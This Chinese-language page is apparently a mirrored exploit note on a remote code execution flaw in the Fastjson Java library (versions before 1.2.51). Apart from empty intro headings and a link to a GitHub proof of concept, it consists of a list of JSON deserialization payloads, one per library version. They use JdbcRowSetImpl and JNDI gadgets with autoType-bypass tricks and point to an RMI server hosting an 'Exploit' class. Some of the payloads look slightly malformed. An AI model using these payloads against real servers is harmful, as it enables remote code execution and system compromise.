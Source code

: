 # Fastjson <=1.2.47 远程代码执行漏洞

> 原文：[http://book.iwonder.run/0day/Fastjson/1.html](http://book.iwonder.run/0day/Fastjson/1.html)

## 一、漏洞简介

## 二、漏洞影响

Fastjson < 1.2.51

## 三、复现过程

[https://github.com/ianxtianxt/Fastjson-1.2.47-rce](https://github.com/ianxtianxt/Fastjson-1.2.47-rce)

```
1.2.24
{"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit", "autoCommit":true}}

未知版本(1.2.24-41 之间)
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

1.2.41
{"@type":"Lcom.sun.rowset.RowSetImpl;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}

1.2.42
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true};

1.2.43
{"@type":"[com.sun.rowset.JdbcRowSetImpl"[{"dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true]}

1.2.45
{"@type":"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory","properties":{"data_source":"rmi://localhost:1099/Exploit"}}

1.2.47
{"a":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"b":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://localhost:1099/Exploit","autoCommit":true}}} 
```

